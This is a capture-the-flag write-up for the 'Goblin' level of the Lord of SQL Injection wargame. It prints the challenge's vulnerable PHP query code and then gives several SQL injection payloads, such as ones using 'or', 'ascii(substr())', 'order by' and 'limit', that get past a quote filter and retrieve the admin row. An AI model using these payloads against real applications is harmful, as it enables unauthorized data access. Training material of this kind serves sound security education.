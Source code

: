 # **Goblin**
## 1. What will we learn from this problem?
This problem wants to make sure you can use **many SQL Functions**      

## 2. Analize codes  
    <?php
      include "./config.php";
      login_chk();
      dbconnect();

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");
      if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");

      $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}";

      echo "<hr>query : <strong>{$query}</strong><hr><br>";

      $result = @mysql_fetch_array(mysql_query($query));

      if($result['id'])
        echo "<h2>Hello {$result[id]}</h2>";

      if($result['id'] == 'admin')
        solve("goblin");

      highlight_file(__FILE__);
    ?>

### 1. preg_match()
We can't use string like these.(scope : no)  

    prob | _ | . | ()

If we use one of these, we will see 'No Hack ~_~'

There is one more preg_match function.

    ' | " | `

If we use one of these we will see 'No Quote ~_~'

### 2. query
Query is this.

    select id from prob_goblin where id='guest' and no={$_GET[no]}

Let's think how to modulate that.

### 3. if($result['id'] == 'admin')
If data which we got from database using query has 'id' field and the value of the field is same with 'admin',
then we can solve this problem.  

Then how can we do that?

## 3. Solution  
In this problem, we can't use quote. But that does not matter.  
So, enough we can get the value. then how?

Those keywords are as follows.

### Using Keyword  

    or | substr | order by | limit | ascii | etc.....

    <There are too many answers to this problem.>

### These are my answers.

    ?no=2 or ascii(substr(id,1,1))=97

    ?no=2 or 1 order by id

    ?no=2 or no=2

    ?no=0 or 1 limit 1,1


### **ascii(char)**
This function will return the ascii value of the parameter which is char type.

### **substr(str,offset,length)**
This function will return the string from offset to length

### **order by {column} {type=asc(?)}**
If we use this function, SQL will sort data by column according to asc. If we want sort in descending order, we can use order by like this

    order by {column} desc

### **limit {offset},{amount}**
This function will cut the rows from offset-index to (offset+amount)-index.  
Start of index is 0, zero. And if we use this like "limit 1", it is same with "limit 0,1"

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/WriteUp/blob/master/Wargame/Lord%20of%20SQL%20Injection/00.%20ReadMe.m)**

